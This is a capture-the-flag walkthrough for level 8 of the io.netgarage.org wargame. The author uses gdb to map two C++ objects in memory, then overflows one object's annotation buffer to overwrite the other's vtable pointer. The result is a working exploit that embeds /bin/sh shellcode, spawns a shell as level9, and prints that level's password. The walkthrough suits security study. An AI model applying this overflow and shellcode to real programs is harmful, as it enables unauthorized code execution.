```yaml
---

title: Level 8
link: ssh level8@io.netgarage.org

---
```


This challenges involves messing up the vtables for the created objects. Vtable holds the information of the virtual function defined in the class. In our case, the `operator+` is defined only once, and both objects `x` and `y` can access it at run-time. If there was a more complex case, with inheritance, the object could lookup the vtable to select the correct function to call.

In our case the memory for the objects look like:

    VTABLE  pointer to `operator+`
    DATA    annotation buffer
            number

And because we have two objects, the interesting memory will look like:

    y   VTABLE  pointer to `operator+`
        DATA    annotation buffer
                number
    x   VTABLE  pointer to `operator+`
        DATA    annotation buffer
                number

We can verify that quite easily with gdb:

    level8@io:/levels$ gdb ./level08
    (gdb) disass main
    Dump of assembler code for function main:
       ...
       0x080486cb <+55>:    call   0x804879e <_ZN6NumberC1Ei>
       0x080486d0 <+60>:    mov    %ebx,0x10(%esp)
       ...
       0x080486ef <+91>:    call   0x804879e <_ZN6NumberC1Ei>
       0x080486f4 <+96>:    mov    %ebx,0x14(%esp)
       ...
    End of assembler dump.
    (gdb) b *0x080486f8
    Breakpoint 1 at 0x80486f8
    (gdb) r 1
    Starting program: /levels/level08 1
    /bin/bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)

    Breakpoint 1, 0x080486f8 in main ()
    (gdb) x $esp+0x10
    0xbffffc30:     0x0804a008
    (gdb) x/40 0x0804a008
    0x804a008:      0x080488c8      0x00000000      0x00000000      0x00000000
    0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
    0x804a078:      0x080488c8      0x00000000      0x00000000      0x00000000
    0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
    (gdb) x $esp+0x14
    0xbffffc34:     0x0804a078

We're looking at the first `Number` created, which vtable is located at the address `0x804a008`, we have an address, then a long and empty buffer and two non-empty fields. We find the second vtable at the address `0x804a078`, which corresponds to the second `Number`.

The function at location is indeed the `operator+` for the class `Number`:

    (gdb) x 0x080488c8
    0x80488c8 <_ZTV6Number+8>:      0x080487e2

Another thing, the operation we're really doing is `y + x` so the `operator+` is called on `y`, after we setup the annotation on `x`. Our attack is clearly the following: overflow `annotation` on `x` to write another address on `y`'s vtable.

The distance between `x`'s annotation and `y`'s vtable is:

    (gdb) p 0x804a078 - 0x804a00c
    $2 = 108

Let's try that:

    (gdb) r $(python -c 'print "A"*108 + "BCDE"')
    Starting program: /levels/level08 $(python -c 'print "A"*108 + "BCDE"')
    /bin/bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
    0x080486fc in main ()
    (gdb) x/40 0x0804a008
    0x804a008:      0x080488c8      0x00000000      0x00000000      0x00000000
    0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
    0x804a078:      0x080488c8      0x00000000      0x00000000      0x00000000
    0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
    (gdb) ni
    0x08048720 in main ()
    (gdb) x/40 0x0804a008
    0x804a008:      0x080488c8      0x41414141      0x41414141      0x41414141
    0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
    0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
    0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
    0x804a048:      0x41414141      0x41414141      0x41414141      0x41414141
    0x804a058:      0x41414141      0x41414141      0x41414141      0x41414141
    0x804a068:      0x41414141      0x41414141      0x41414141      0x41414141
    0x804a078:      0x45444342      0x00000000      0x00000000      0x00000000
    0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000

The address was replaced with our custom string, nice!

Now let's inject a shellcode in the annotation to have the following exploit:

    [ x's annotation ]
    [ 108                                         ]
    [ shellcode address ] [ shellcode ] [ padding ] [ x's annotation address ]
    [ 4                     23            81      ] [ 4                      ]

    (gdb) r $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*81 + "\x0c\xa0\x04\x08"')
    sh: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
    sh-4.3$

Nice, let's do that outside now:

    level8@io:/levels$ ./level8 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "A"*81 + "\x0c\xa0\x04\x08"')
    sh: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
    sh-4.3$ whoami
    level9
    sh-4.3$ cat /home/level9/.pass
    ise9uHhjOhZd0K4G

> ise9uHhjOhZd0K4G
